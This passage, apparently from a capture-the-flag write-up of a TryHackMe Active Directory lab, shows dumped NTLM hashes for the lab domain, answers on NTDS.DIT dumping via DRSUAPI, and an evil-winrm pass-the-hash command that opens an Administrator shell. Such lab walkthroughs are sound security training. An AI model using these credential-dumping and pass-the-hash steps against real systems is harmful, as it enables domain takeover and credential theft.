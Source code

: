 spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
spookysec.local\a-spooks:1601:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:0942ad72c183935a736ea0a211fabdec:::
{% endhighlight %}

### What method allowed us to dump NTDS.DIT?

`DRSUAPI`

### What is the Administrators NTLM hash?

`0e0363213e37b94221497260b0bcb4fc`

### What method of attack could allow us to authenticate as the user without the password?

[**Pass The Hash**](https://beta.hackndo.com/pass-the-hash/)

### Using a tool called Evil-WinRM what option will allow us to use a hash?

`-H`

{% highlight bash %}
root@kali:~/thm/attackive-directory# evil-winrm -i $TARGET -u Administrator -H 0e0363213e37b94221497260b0bcb4fc

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Administrator\Documents> whoami
thm-ad\administrator
{% endhighlight %}

![secretsdump](/assets/img/thm/windows/attackive-directory/secretsdump.png)
